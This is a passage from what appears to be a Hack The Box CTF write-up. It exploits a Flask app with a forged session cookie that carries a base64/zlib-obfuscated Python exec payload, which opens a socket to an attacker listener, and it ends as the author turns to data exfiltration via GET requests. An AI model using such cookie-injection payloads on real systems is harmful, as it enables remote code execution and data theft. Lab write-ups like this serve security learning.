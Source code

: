 We want to force the app to send a `Hi!` to our listening port on the attacking machine.


```python
pl_send_msg = """import socket;s=socket.socket(2,1);s.connect(("172.17.0.1",1234));s.send("Hi!")"""
```


```python
cookie = from_payload_to_cookie_for_flask(make_the_payload_using_base64_and_zlib(make_a_statement_for_exec_consistent_with_sandbox(pl_send_msg)),secret_key,debug_recipe=True)
```

    Recipe: d='%cdecode'%46+'%c'%40;exec "a=%s"%'"eJxNjdEKgzAMRX8l60tbkGLdYDDZ+/5BpGiMUKbtMBUGY/++qi97yuGe5IbehEoI4edXXBJwxCelmu8HmGOoqrC6ZoMxBMKklLDXytirKY0Vha3OF71ppjAo8fAnoXNj8ZHO9aufkg/snLw1CGNcAMEHUNo4h1PH2WTqO6YdeO33lHKuNPgRJHZJbieYdejmvAdtU7ZbwxyHdSLz/+arfz23Q58="'+d+'"base64")'+d+'"zlib")';exec a# =  
    LEN RECIPE: 298



```python
url = get_url_to_target()
```

    1 for HTB, 2 for our local web server2
    Using the url: http://173.17.0.3:1337



```python
get_response_from_the_app_using_cookie(url,cookie)
```




    <html><body><p>render_template('index.html')</p></body></html>



We see that we are able to recieve on our localhost the message sent by the container.


<img src="https://i.ibb.co/zPsjHcY/nc-hi-local-local.png" alt="nc-hi-local-local" border="0">

We use an AWS machine with a public IP address to run the listening service.

We are able to recieve the message from our local app but not from the one running on the HTB host.

**Conclusion**: it is better to leave this approach and find other ways. We are indeed not able to connect from the HTB machine to our public ip address. This makes redundant to work on the length reduction of the payload to get the bash shell.



Very likely a Firewall is getting on our way.

This poses an other question.

We can't use the socket library, but is there a way we can execute `GET` requests from the target machine?

## Data exfiltration using GET methods
